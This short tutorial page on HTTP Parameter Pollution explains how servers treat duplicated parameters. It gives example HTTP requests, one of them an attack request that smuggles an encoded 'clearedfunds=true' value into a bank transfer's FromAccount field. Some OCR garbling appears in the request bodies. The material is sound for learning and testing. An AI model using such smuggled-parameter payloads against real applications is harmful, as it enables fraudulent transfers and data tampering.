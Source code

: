# HTTP Parameter Pollution

Use the first instance of the parameter, Use the last instance of the parameter. Concatenate the parameter values, maybe adding a separator between them. Construct an array containing all the supplied values

```POST /doTransfer.asp HTTP/1.0
Host: example.com
Content-Length: 62
fromacc=18281008&amount=1430&clearedfunds=false&toacc=08447656```

And the back-end server uses the first instance of any duplicated parameter, an attacker can place the attack into the FromAccount parameter in the front-end

### request:

```POST /bank/52/Default.aspx HTTP/1.0
Host: example.com
Content-Length: 96
FromAccount=18281008%26clearedfunds%3dtrue&Amount=1430&ToAccount=0844765
6&Submit=Submit```

The results of HPP attacks are heavily dependent on how the target application server handles multiple occurrences of the same parameter, and the precise insertion point within the back-end request.

### GET Req

```GET /foo?par1=val1&par2=val2 HTTP/1.1
User-Agent: Mozilla/5.0
Host: Host
Accept: */*```

### POST Req

```POST /foo HTTP/1.1
User-Agent: Mozilla/5.0
Host: Host
Accept: */*
Content-Length: 19
par1=val1&par2=val2c```

### Cookie

```POST /index.aspx?par=1&par=2 HTTP/1.1
User-Agent: Mozilla/5.0
Host: Host
Cookie: par=5; par=6
Content-Length: 19
par=3&par=4```

